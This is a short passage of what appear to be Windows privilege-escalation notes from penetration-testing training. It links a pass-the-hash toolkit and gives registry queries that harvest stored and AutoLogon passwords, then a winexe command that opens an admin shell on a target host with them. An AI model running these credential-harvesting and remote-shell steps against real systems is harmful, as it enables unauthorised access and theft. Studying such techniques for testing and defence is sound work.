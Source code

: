 https://github.com/byt3bl33d3r/pth-toolkit.git

The registry can be searched for keys and values that contain the word "password":

`reg query HKLM /f password /t REG_SZ /s`

If you want to save some time, query this specific key to find admin AutoLogon credentials:

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

`winexe -U 'admin%password' //10.10.1.200 cmd.exe`